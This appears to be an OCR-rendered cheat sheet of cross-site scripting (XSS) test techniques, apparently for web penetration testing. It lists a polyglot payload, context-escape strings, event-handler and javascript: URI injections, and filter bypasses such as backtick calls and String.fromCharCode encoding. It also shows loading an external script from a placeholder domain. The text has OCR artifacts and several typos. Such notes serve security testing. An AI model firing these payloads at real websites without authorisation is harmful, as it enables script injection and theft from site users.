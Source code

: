 ### ⇒ test the application with this payload to understand the application
###          **▪    `martin\/><'"`--><svg/onload=alert(document.domain)>"</script><img src=x onerror=alert(1)><script>alert(1)</script>**
         ▪ understand which characters are escaped
⇒ Escape from the current user input  
         ▪ "/>  
         ▪ ')
         ▪ '/></tag>
⇒ use handlers
         ▪ onclick
         ▪ onfocus
         ▪ onmouseover
⇒ javascript
         ▪ javascritp:alert(1)
⇒After the hashcode # 
         ▪ if we can inject internal path location
         ▪ then we do some xss
         ▪ ### **#data:text/javascript,alert('XSS')**
⇒ Intercept the request and change the values (payload)
         ▪ capture and change the values topayload
⇒ Search any hidden input fields are present
         ▪ if yes make as text and inject the payload
⇒ UTF 7 Based encoding
         ▪ this wont work in the moder browsers
⇒ document.domain
         ▪ Use another alternative mthod to perform xss
         ▪ location.host used for alternative of document.domain
⇒  Use Polygot payload to test the response or else use custom ones  ###  **test\/><'"'**
⇒ instead script use others
⇒ instead alert use prompt console.log and more
⇒ use ### **`alert`1``**  instead of **`alert(1)`**
⇒ alert(String.fromCharCode(88,83,83))  Sometimes the strings blocked soyou can use encoded version
⇒  include external js files to execute 
      ◇ <script src= “https://domain.com”></script>
